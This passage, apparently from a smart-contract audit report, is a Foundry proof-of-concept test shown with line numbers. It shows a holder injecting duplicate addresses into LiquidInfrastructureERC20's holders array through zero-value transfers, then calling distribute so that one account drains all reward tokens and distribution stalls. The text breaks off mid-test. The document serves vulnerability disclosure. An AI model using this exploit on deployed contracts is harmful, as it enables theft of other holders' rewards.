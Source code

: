 ```javascript
054:             managed_nfts, 
055:             approved_holders, 
056:             MIN_DISTRIBUTION_PERIOD,
057:             distributable_tokens
058:         );
059:         erc20.mint(bob, initialTokensAmount);
060:         rewardTokens.mint(address(erc20), totalRewardsAmount);
061:         ////// End Setup //////////////////////////////////////////////
062: 
063:         // Bob, a malicious holder, transfers zero amount
064:         // to another approved EOA (e.g. Eve) mutiple times.
065:         // As a result, this account will be repeatedly
066:         // pushed into `holders` array, bypassing the
067:         // holder "existance" check on LiquidInfrastructureERC20:L143.
068:         vm.startPrank(bob);
069:         for (uint256 i; i < injectedHolders; i++) {
070:             erc20.transfer(eve, 0);
071:         }
072: 
073:         // Now, let's imagine that Alice wants to buy Bob's tokens.
074:         // Bob sends his tokens to Alice and then he sends a small amount
075:         // to Eve, the account he just injected into `holders`, in order to
076:         // Eve's token balance become greater than zero.
077:         erc20.transfer(alice, erc20.balanceOf(bob) - smallAmountEnoughToDrainRewards);
078:         erc20.transfer(eve, smallAmountEnoughToDrainRewards);
079:         vm.stopPrank();
080: 
081:         // Asserting injected empty transferes to eve + last transfer to eve + transfer to alice
082:         address[] memory holders = erc20.getHolders();
083:         assertEq(holders.length, injectedHolders + 2); 
084:         for (uint256 i; i < injectedHolders + 1; i++) {
085:             assertEq(holders[i], eve);
086:         }
087:         assertEq(holders[injectedHolders + 1], alice);
088: 
089:         /** 
090:          * Only the first addresses in `holders` array will receive reward tokens.
091:          * The latest addresses in this array won't receive rewards because the reward token
092:          * balance of LiquidInfrastructureERC20 will be drained before reaching the end
093:          * of the array, since the same holder address is unexpectedly rewarded more than
094:          * once. As a result, the distribution period will never end, leading to a DoS.
095:          *
096:          * In this example, Eve is the only holder of the first portion of the array.
097:          * Therefore all the reward funds will be send to her.
098:          *
099:          * The code in the next 3 lines is calculating the "rewardable" portion of holders
100:          * array, before the balance is completly drained.
101:          */
102:         uint256 entitlementPerUnit = rewardTokens.balanceOf(address(erc20)) / erc20.totalSupply();
103:         uint256 entitlement = entitlementPerUnit * erc20.balanceOf(eve);
104:         uint256 numDistributionsToDrain = totalRewardsAmount / entitlement;
105: 
106:         // Eve has 0 reward tokens before distribution
107:         assertEq(rewardTokens.balanceOf(eve), 0); 
108:         assertEq(rewardTokens.balanceOf(address(erc20)), totalRewardsAmount);
109: 
110:         // Eve, can calculate the numDistributionsToDrain and start the distribution:
111:         vm.roll(nextDistributionBlock);
112:         erc20.distribute(numDistributionsToDrain);
113: 
114:         // Eve has drained all the reward tokens.
```